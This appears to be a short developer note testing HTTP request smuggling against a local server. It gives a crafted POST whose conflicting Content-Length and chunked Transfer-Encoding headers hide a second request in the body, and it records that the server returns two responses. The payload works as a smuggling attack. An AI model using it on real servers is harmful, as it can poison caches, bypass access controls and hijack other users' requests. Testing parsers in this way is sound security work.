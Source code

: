 * <2020-12-02 Wed>

** TE Server
*** Able to smuggle package to TE server
*** Use the following request
 #+BEGIN_SRC http
 (def m-te
   {:request
    {:method "POST"
     :http-version "HTTP/1.1"
     :url "http://localhost:4000/test-json"
     :headers {
               "Content-Length" 91
               "Transfer-Encoding" "chunked"
               "Host" "localhost:4000"
               "Connection" "keep-alive"
               }
     :content "0\r\n\r\nPOST /about HTTP/1.1\r\nHost: localhost:4000\r\nTransfer-Encoding: chunked\r\n\r\n4\r\nedho\r\n0\r\n\r\n"}})

 #+END_SRC
*** The important part is "transfer-Encoding" header and the content 
*** Using hubble/netty to send above message will receive 2 responses.
